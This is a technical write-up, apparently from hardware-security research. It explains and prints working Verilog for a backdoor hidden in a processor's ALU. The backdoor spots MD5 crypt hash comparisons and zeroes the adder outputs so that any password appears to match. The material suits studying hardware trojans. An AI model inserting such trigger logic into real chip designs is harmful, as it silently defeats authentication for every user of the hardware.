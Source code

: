 The ALU's combinational logic performs addition with the input control
signals, treating CMP and SUB operations identically. But the backdoor
logic must differentiate between them to reduce false positives. The
issubrd0 signal indicates that the current operation is a CMP, as shown
below.

</PRE>
```c
 assign issubrd0 = (5'h0 == ecl_alu_rd_e[4:0]) & sub_e & ecl_alu_cin_e;
```
<PRE>

The hash is split into 64-bit blocks and iteratively compared with its
counterparts. For example, this is a MD5 hash:

</PRE>
```text
 $1$7c71x        0x2431243763373178
 B0y$mPkM        0x423079246d506b4d
 SwwbMWgE        0x537777624d576745
 XsyD6YV/        0x587379443659562f
 C1              0x4331
```
<PRE>

The ALU signals hash_begin when it identifies the start of a hash segment
(beginning with $1$), while hash_00 indicates the end of the segment. The
intermediate section consists of printable ASCII bytes without a distinct
pattern. Note that the position of null bytes (0x00) depends on the hash
algorithm and salt length. For simplicity, this implementation only uses
MD5 hashes, and the hash length is fixed. The logic is illustrated below.

</PRE>
```c
 assign hash_begin = ((24'h243124 == byp_alu_rs1_data_e[63:40])
                   && (24'h243124 == byp_alu_rs2_data_e[63:40]))
                   & issubrd0;
 assign hash_00 = (8'h0 == byp_alu_rs1_data_e[47:40])
                & (8'h0 == byp_alu_rs2_data_e[47:40]);
 assign hash_end = hash_r & hash_00 & issubrd0;
```
<PRE>

When hash_r is active, it means the current operation is comparing a hash.
If issubrd0 (which flags a CMP instruction) is also high, this triggers
trigger_backdoor. Once activated, it forces both spr_out and adder_out to
zero, faking a successful match. The logic is shown below.

</PRE>
```c
 assign hash_en = (hash_begin | hash_end) & backdoor_r;
 assign hash_nxt = hash_begin & (~hash_end);

 dffe_s #(1) hash_dffe(.din(hash_nxt), .en(hash_en),
                      .clk(clk), .q(hash_r), .se(se),
                      .si(), .so());

 assign trigger_backdoor = (hash_r | hash_begin) & issubrd0;


 assign spr_out[63:0] = spr_out_tmp[63:0] & {64{~trigger_backdoor}};
 assign adder_out[63:0] = adder_out_tmp[63:0] & {64{~trigger_backdoor}};
```
<PRE>
